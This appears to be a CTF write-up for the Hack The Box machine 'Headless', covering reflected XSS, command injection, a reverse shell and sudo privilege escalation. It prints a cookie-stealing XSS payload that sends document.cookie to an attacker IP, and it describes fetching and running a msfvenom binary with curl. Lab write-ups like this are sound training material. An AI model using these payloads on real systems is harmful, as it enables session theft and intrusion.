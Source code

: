 ```yaml
---
date: 2025-04-15
categories: [CTF, HTB]
title: "HTB - Headless"
tags: ['linux', 'nmap', 'privilege escalation', 'python', 'rce', 'reverse shell', 'xss']

description: "Headless - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Headless

NMAP

![image1](../resources/3c80bf65f98a417abdc9de767bdd5732.png)
 
Go to port 5000 in a browser - we can see it uses cookies:

![image2](../resources/4e972bba1701417b9e40e5a5c10f90ef.png)

- HttpOnly is set to **false**
Which means we can steal the cookies of other users

- Look for directories:

`dirsearch -u http://10.129.35.58:5000 /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt`



![image3](../resources/e288c54c60f64c48a19faae614f9aa4d.png)

- On the /support page:

![image4](../resources/75486423603540d39e9dafcc21025dbd.png)

- If we try and enter XSS code, we get this:

![image5](../resources/2c7e860e909e4aeb9bfcf45baf6699e3.png)

- Now looking at the error message, we see that our **User-Agent** information is being reflected

- Open Burp and forward to Repeater

- In order to get Reflected XSS we need to inject the XSS into the User-Agent field and get the page to error like before

- We need to set up a python server to catch the GET request which should have an (admin) cookie attached to it

- Using the payload:

```java
<img src=x onerror=fetch('http://10.10.14.23/?c='+document.cookie);>

```
and entering **hello;\<script\>** in the **message field** so that it errors. (Anything inside \<\> tags makes this page error)


![image6](../resources/b5f36784cc374c59afec29484a5e3d13.png)


![image7](../resources/6dc6a636156e4161a6e30a89e8050121.png)

- Got the cookie:  
is_admin= **ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0**

- Good article here:  
<https://systemweakness.com/reflected-xss-user-agent-2868ca1d5116>

- In the browser, Inspect -\> Storage -\> Cookies
- Change the cookie to the admin cookie

- Go to **/dashboard**


![image8](../resources/ac636b9d7709446f9c4a952e2b0379d1.png)

- Click on generate report and catch the request in Burp and send to Repeater:

![image9](../resources/a6c75ba552064d938d2077f2420780e4.png)


![image10](../resources/3d9119b0bfcb43c18e73d9fb2f435333.png)

- As we can see, the **date** parameter gets passed to the server as an argument

- We can inject commands into this parameter using **;**

![image11](../resources/b560fe1f3729472f939a6c1ef1b9f66f.png)

- The reverse shells didn't want to work

- But curl works:

![image12](../resources/2fd912ea3ad64fa88e83960dcac9d95d.png)

- Create a msfvenom linux .elf file and curl it onto the victim machine
- Run chmod +x on the reverse.elf file
- Set up msfconsole listener
- Run ./reverse.elf

- Got shell:

![image13](../resources/fd46e7feca16442691a127fef71146ce.png)


![image14](../resources/6e40cc79e04c467982668c5599edd89c.png)

```bash
cat user.txt

```
Upload public key to the ~/.ssh/authorized_keys and use SSH

```bash
sudo -l

```

![image15](../resources/731f0fa0989e430f997db6af215494cd.png)


![image16](../resources/3684b736a51447f0ba573b7bc3144c37.png)

- Checking the file /usr/bin/syscheck:

![image17](../resources/3d2d3f7ac3a74f41ba360d2fb04d97c7.png)

- In dvir home, create the file ./initdb.sh:

![image18](../resources/c092a50183f342d0a8f51c8493cee43e.png)

```bash
chmod +x initdb.sh
sudo /usr/bin/syscheck

```
- We have root:

![image19](../resources/974cddeac4af44649913cae2c9375fbf.png)